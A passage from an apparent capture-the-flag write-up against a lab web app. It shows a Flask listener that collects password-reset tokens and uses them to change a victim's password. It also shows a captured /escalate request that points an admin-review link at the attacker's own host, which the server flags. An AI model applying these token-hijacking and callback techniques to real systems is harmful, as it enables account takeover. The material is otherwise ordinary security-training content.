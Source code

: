 ```python
@app.route("/reset")
def reset_listener():
    token = request.url.split("=")[1:][0]
    #print("received: " + token)
    change_password(token)
    return "Success"


if __name__ == "__main__":
    trigger_iforgot()
  app.run(host='0.0.0.0', port=80)
```

## Enumerating the webapp further as robert

So we're logged in as robert   
Let's have dirsearch running in the background with that cookie set
We have access to `/tickets` wich shows existing tickets  
And `/escalate` which lets us escalate existing tickets to the admin with a link and a reason field   
This is sent as a POST that looks like this:  

request
```
POST /escalate HTTP/1.1
Host: 10.10.11.188
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 155
Origin: http://10.10.11.188
Connection: close
Referer: http://10.10.11.188/escalate
Cookie: __hstc=37486847.8e5c3224c1cd5c149271923b09aae509.1674944197616.1674944197616.1674944197616.1; hubspotutk=8e5c3224c1cd5c149271923b09aae509; __hssrc=1; __hssc=37486847.46.1674944197616; session=e619bd1a-4f08-4411-9774-0e4267e7504d

to=Admin&link=http://10.10.14.53:8000/hello&reason=http://10.10.14.53:8000/hello&issue=Getting error while accessing search feature in enterprise platform.
```
response
```
HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.8.10
Date: Sun, 29 Jan 2023 10:31:23 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 62
Set-Cookie: session=e619bd1a-4f08-4411-9774-0e4267e7504d; HttpOnly; Path=/
X-Varnish: 3213363
Age: 0
Via: 1.1 varnish (Varnish/6.2)
Accept-Ranges: bytes
Connection: close

This request can't be reviewed since the issue link is flagged
```
